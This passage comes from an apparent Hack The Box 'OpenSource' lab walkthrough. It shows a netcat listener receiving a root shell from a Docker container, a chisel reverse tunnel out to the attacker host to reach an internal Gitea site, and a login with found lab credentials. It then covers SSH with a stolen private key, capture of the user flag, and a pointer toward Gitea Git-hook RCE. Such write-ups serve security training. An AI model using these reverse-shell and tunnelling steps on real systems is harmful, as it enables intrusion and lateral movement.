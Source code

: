 ```bash
➜  opensource nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.15.17] from (UNKNOWN) [10.129.69.218] 46477
/app # id && hostname
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
a18fa0f4252c
```

-----------
### Step 3
We're in a docker container.. both `capsh` and `getcap` is unavailable, we don't have permissions to mount to the host file system. We are unable to SSH to the host with found creds.. but when using `wget` to enumerate `http://172.17.0.1` we find a webfront where user `dev01` is a member - `http://opensource.htb:3000/dev01`. 

```bash
➜  chisel_1.7.7 ./chisel_1.7.7_linux_amd64 server -p 3333 -reverse
2022/05/24 10:26:12 server: Reverse tunnelling enabled
2022/05/24 10:26:12 server: Fingerprint 0w1VYvw5UN5G517RVqpm0jScfuRrA5gZN3N7h5iXI10=
2022/05/24 10:26:12 server: Listening on http://0.0.0.0:3333
```

```bash
/app/public/uploads # ./chisel_1.7.7_linux_amd64 client 10.10.15.17:3333 R:127.0.0.1:3000:172.17.0.1:3000
2022/05/24 08:26:43 client: Connecting to ws://10.10.15.17:3333
2022/05/24 08:26:43 client: Connected (Latency 43.290943ms)
```


![[Pasted image 20220524102911.png]]

Login with previously found credentials, `dev01:Soulless_Developer#2022`, and grab the private key. 

![[Pasted image 20220524103007.png]]

```bash
➜  opensource chmod 400 id_rsa 
➜  opensource ssh dev01@10.129.70.252 -i id_rsa 
dev01@opensource:~$ id && hostname
uid=1000(dev01) gid=1000(dev01) groups=1000(dev01)
opensource

dev01@opensource:~$ pwd
/home/dev01

dev01@opensource:~$ cat user.txt
48e3b2ed54ab95e7339d32f60f3f8f46
```

-------------

# ROOT
### Step 1
We are unable to run `sudo -l`, and the groups look fine. 
Reading about GiTea vulnerabilities a lot of articles point towards an authenticated RCE through Git Hooks.
